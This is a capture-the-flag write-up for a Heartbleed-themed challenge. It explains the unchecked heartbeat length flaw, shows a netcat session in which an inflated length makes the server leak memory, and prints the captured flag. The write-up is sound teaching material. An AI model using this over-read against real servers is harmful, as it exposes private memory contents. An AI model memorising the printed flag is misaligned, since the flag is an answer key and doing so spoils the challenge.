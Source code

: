 # Baby's First Heartbleed

## Description
Author: @JohnHammond#6971

Hey kids!! Wanna learn how to hack??!?! Start here to foster your curiosity!

Press the Start button on the top-right to begin this challenge.

## Solve
The title of the challenge gives us a clue that we will be dealing the the heartbleed vulnerability. There is an extension in OpenSSL called Heartbeat which checks if the both endpoints in a TLS encrypted handshake are still live by sending Heartbeat messages. One endpoint sends a request and the other will response with the exact same message. 

The problem comes from us being able to tell the server the length of our message and the server not validating if the length matches the message. This means if we send a length greater than the actual payload the server will respond to us with extra data it copied out of memory. In this case we can retrieve the contents of the flag from the memory.
```
user@arch:~$ nc challenge.nahamcon.com 31687

===============================================================================
     _   _ _____    _    ____ _____ ____  _     _____ _____ ____  
    | | | | ____|  / \  |  _ \_   _| __ )| |   | ____| ____|  _ \ 
    | |_| |  _|   / _ \ | |_) || | |  _ \| |   |  _| |  _| | | | |
    |  _  | |___ / ___ \|  _ < | | | |_) | |___| |___| |___| |_| |
    |_| |_|_____/_/   \_\_| \_\|_| |____/|_____|_____|_____|____/ 
                                                                      
===============================================================================

THANK YOU FOR CONNECTING TO THE SERVER. . .

TO VERIFY IF THE SERVER IS STILL THERE, PLEASE SUPPLY A STRING.

STRING ['apple']: test
LENGTH ['4']: 100

... THE SERVER RETURNED:

test@apple@00@00@00@00@00@00@00@00@00@00@00@00@00@00@apple@00@00@apple@00@apple@00@apple@00@apple@00

TO VERIFY IF THE SERVER IS STILL THERE, PLEASE SUPPLY A STRING.

STRING ['apple']: test
LENGTH ['4']: 200

... THE SERVER RETURNED:

test@test@apple@00@00@00@00@00@00@00@00@00@00@00@00@00@00@apple@00@00@apple@00@apple@00@apple@00@apple@00@flag{bfca3d71260e581ba366dca054f5c8e5}@apple@00@00@00@00@00@00@00@00@00@00@00@00@00@00@00@00@0
```

## Flag
```
flag{bfca3d71260e581ba366dca054f5c8e5}
```